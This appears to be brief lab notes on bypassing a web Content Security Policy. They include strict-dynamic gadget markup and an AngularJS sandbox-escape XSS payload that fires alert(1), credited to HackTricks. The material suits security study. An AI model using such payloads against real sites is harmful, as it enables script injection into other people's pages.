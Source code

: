 ## strict-dynamic
```html
<button data-role="button" data-text="push me"></button>
<div data-role="button" data-text="push me"></div>
```

<!-- uncomment the CSP in app.py and the loading of angular in index.html -->

## angular
```html
<div ng-app>{{''.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}}</div>
```
* [payload from](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#third-party-endpoints-+-unsafe-eval)
* idk why this works, I've never used angular [this is what ng-app does?](https://www.w3schools.com/angular/ng_ng-app.asp)